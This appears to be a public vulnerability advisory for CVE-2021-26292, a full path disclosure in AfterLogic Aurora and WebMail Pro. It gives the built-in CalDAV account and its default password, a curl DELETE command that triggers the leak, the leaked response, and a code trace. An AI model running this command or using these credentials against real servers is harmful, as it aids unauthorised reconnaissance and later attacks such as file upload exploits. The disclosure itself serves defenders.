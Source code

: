 # **Report Title:** CVE-2021-26292 - Public Full Path Disclosure on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Medium

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:** Full Path Disclosure

## **Resources :**

* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal

## **Authors :**

* Emre KELEŞ - @emrekeles on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/emrekeles.svg?style=social&label=Follow%20%40emrekeles)](https://twitter.com/emrekeles)
* Emircan YILDIZ - @scorpsec on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/scorpsec.svg?style=social&label=Follow%20%40scorpsec)](https://twitter.com/scorpsec)
* Halil Emre ÖZEN - @halilemreozen on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/halilemreozen.svg?style=social&label=Follow%20%40halilemreozen)](https://twitter.com/halilemreozen)

## **Report Summary :**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP DELETE request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to obtain web root path.

## **To Reproduce :**

Get the web root path with the following curl command

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

## **Response :**

``` xml
<?xml version="1.0" encoding="utf-8"?>
<d:error xmlns:d="DAV:" xmlns:s="http://sabredav.org/ns">
  <s:exception>Sabre\DAV\Exception\NotFound</s:exception>
  <s:message>File with name /var/www/html/www/webmailpro.dev/data/files/private/caldav_public_user@localhost/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021 could not be located</s:message>
</d:error>
```

In this scenario : **/var/www/html/www/webmailpro.dev** is the web root path, this data is especially becomes valuable for the file upload vulnerabilities.

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpDelete
* \libraries\Sabre\DAV\Tree.php -> delete
* \libraries\Sabre\DAV\ObjectTree.php -> getNodeForPath
* \libraries\Sabre\DAV\FS\Directory.php -> getChild

Get web root path vulnerability starts on step 7 / getChild, at the \Sabre\DAV\Exception\NotFound('File with name ' . $path . ' could not be located') line **$path** variable contains web root path

With the above problem any loggable user can obtain web root path, with the caldav_public_user@localhost user, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
